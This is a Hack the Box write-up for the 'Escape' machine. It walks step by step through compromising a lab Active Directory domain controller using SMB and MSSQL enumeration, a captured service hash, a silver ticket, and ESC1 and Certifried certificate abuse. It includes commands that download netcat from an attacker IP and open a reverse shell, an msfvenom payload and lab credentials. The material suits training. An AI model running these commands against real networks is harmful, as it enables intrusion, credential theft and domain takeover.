 ```yaml
---
layout: post
title:  "Hack the Box - Escape"
category: "Writeups"
---
```


## Enumeration
- Based on the ports, we are dealing with a domain controller with MSSQL running
- Domain sequel.htb, dc : dc.sequel.htb

# SMB

```bash
impacket-smbclient sequel.htb/anonymous@sequel.htb -no-pass -dc-ip 10.129.25.121
```
Information pulled from the document pulled in the Public share / SQL Server Procedure PDF:

- Accessing SQL db from non-domain machine:

```windows
cmdkey /add:"servername.sequel.htb" /user:"sequel\username" /pass:"password"
```
- We find some basic creds for new hires:

```text
 PublicUser : GuestUserCantWrite1
```

# MSSQL
```bash
impacket-mssqlclient sequel.htb/PublicUser@dc.sequel.htb -dc-ip 10.129.25.121
```

[Using the hacktricks guide, we can use responder to connect back to our machine and capture a hash](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#manual)

```bash
exec master.dbo.xp_dirtree '\\10.10.14.91\share'
```

![sql_sequel_responder.png](/images/HTB/Escape/sql_sequel_responder.png)

```text
sql_svc : REGGIE1234ronnie
```

- We have a set of creds now!

## Enumeration as sql_svc
# AD Users

```bash
impacket-GetADUsers 'sequel.htb/sql_svc' -all -debug -dc-ip 10.129.25.121
```
Output:

```bash
Administrator
Guest
krbtgt
Tom.Henn
Brandon.Brown
Ryan.Cooper
sql_svc
James.Roberts
Nicole.Thompson
```

- Next step -> silver ticket? -> xp_cmd ? 

# Silver Ticket
- First we need to get the domain sid

```bash
impacket-lookupsid sequel.htb/sql_svc:REGGIE1234ronnie@10.129.25.254 -domain-sids
```

- Generate the silver ticket

```bash
impacket-ticketer -spn sql_svc/dc.sequel.htb -domain sequel.htb -domain-sid 'S-1-5-21-4078382237-1492182817-2568127209' -nthash '1443EC19DA4DAC4FFC953BCA1B57B4CF' -debug -dc-ip 10.129.25.254 Administrator
```

- Log into the MSSQL instance
```bash
KRB5CCNAME=Administrator.ccache impacket-mssqlclient sequel.htb/Administrator@dc.sequel.htb -no-pass -k -debug
```
![mssql_admin_login.png](/images/HTB/Escape/mssql_admin_login.png)

- Note: DO NOT FORGET TO SYNC TIME FOR KERBEROS

```bash
sudo ntpdate <dc ip>
```
- There was nothing we could find in the db so we can enable xp_cmdshell and get a reverse shell

- Executing commands on the SQL instance

```bash
xp_cmdshell powershell.exe -Command Invoke-WebRequest -Uri "http://10.10.14.3:9001/nc64.exe" -OutFile "C:\Users\sql_svc\Desktop\nc.exe"; C:\Users\sql_svc\Desktop\nc.exe -e cmd 10.10.14.3 4444


xp_cmdshell powershell.exe -Command INvoke-WebRequest -Uri "http://10.10.14.4:9001/file.exe" -OutFile "C:\Users\sql_svc\Desktop\file.exe"; C:\Users\sql_svc\Desktop\file.exe
```
![shell_as_sql_svc.png](/images/HTB/Escape/shell_as_sql_svc.png)

- Lets try to get a stable shell with msfvenom

    - Generate reverse shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=1234 -f exe -o file.exe
```

# Enum as sql_svc on DC
- We find another user Ryan.Cooper
- We can do standard PS enum and find groups -> Remote Management Users Group

## AD CS
- We can find some interesting templates with certipy

```bash
 python3 ~/hacking-tools/Certipy/certipy/entry.py find  -dc-ip 10.10.11.202 -target-ip 10.10.11.202 -ns 10.10.11.202 -u 'sql_svc' -p 'REGGIE1234ronnie' -debug
```

- Some templates of interest - Workstation, Machine
- [Certifried might be the route?](https://medium.com/@shaunwhorton/certifried-bloodhound-active-directory-certificate-services-abuse-f28850ffefc9)

## More Enumeration
- We might still need to be Ryan.Cooper
- Checking the SQLServer (in root of C: drive) logs we can find Ryan's pw when trying to log in!

```text
Ryan.Cooper : NuclearMosquito3
```


## Enum as Ryan.Cooper
- Since we know AD CS is running, we can enum templates

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py find  -dc-ip 10.10.11.202 -target-ip 10.10.11.202 -ns 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' -debug -vulnerable
```

- Looking at the template, we find the UserAuthentication template is vulnerable to ESC1
![ESC1.png](/images/HTB/Escape/ESC1.png)


```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py req -username Ryan.Cooper@sequel.htb -password 'NuclearMosquito3' -ca sequel-DC-CA -target dc.sequel.htb -template UserAuthentication -upn Administrator@sequel.htb -ns 10.10.11.202 -timeout 5
```

![admin_pfx.png](/images/HTB/Escape/admin_pfx.png)
- Now we can authenticate to the domain using this pfx

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py auth -pfx ./administrator.pfx -dc-ip 10.10.11.202
```
![pfx_to_tgt_admin.png](/images/HTB/Escape/pfx_to_tgt_admin.png)

```text
Administrator : aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
- Log into the DC

```bash
impacket-wmiexec 'sequel.htb/administrator@10.10.11.202' -shell-type powershell -dc-ip 10.10.11.202 -hashes 'aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee'
```
![proof_of_admin_login.png](/images/HTB/Escape/proof_of_admin_login.png)


- Secretsdump

![secretsdump.png](/images/HTB/Escape/secretsdump.png)

## Another Route (After Getting Administrator)
# Certifried - CVE 2022-26923
- Following the article above, we can take advantage of the certifried issue but first we need to change the machine account quota on the DC
- [Link to article](https://medium.com/@shaunwhorton/certifried-bloodhound-active-directory-certificate-services-abuse-f28850ffefc9)

Note: *This would have worked if the Machine Account Qutoa was configured* 

```powershell-session
Set-ADDomain -Identity sequel.htb -Replace @{"ms-DS-MachineAccountQuota"="5"}

Get-ADObject -Identity ((Get-ADDomain).distinguishedName) -Properties ms-DS-MachineAccountQuota

```

- Now if we follow the steps in the article, we can follow through on the exploit

- Add the new machine

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py account create -dc-ip 10.10.11.202 -u 'Ryan.Cooper' -p 'NuclearMosquito3' -user turco -dns 'dc.sequel.htb' 
```

- Get the pfx

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py req -dc-ip 10.10.11.202 -u 'turco$' -p 'qlM6YVfBTr2rJ0Br' -dns 'dc.sequel.htb' -template Machine -ca sequel-DC-CA 
```
![certifried_pfx.png](/images/HTB/Escape/certifried_pfx.png)

- Now we auth to the domain and get the tgt + pw hash

```bash
python3 ~/hacking-tools/Certipy/certipy/entry.py auth -dc-ip 10.10.11.202 -pfx ./dc.pfx -timeout 3
```
![certifried_auth.png](/images/HTB/Escape/certifried_auth.png)

- With the hash, we can perform a dcsync

![certifried_secretsdump.png](/images/HTB/Escape/certifried_secretsdump.png)
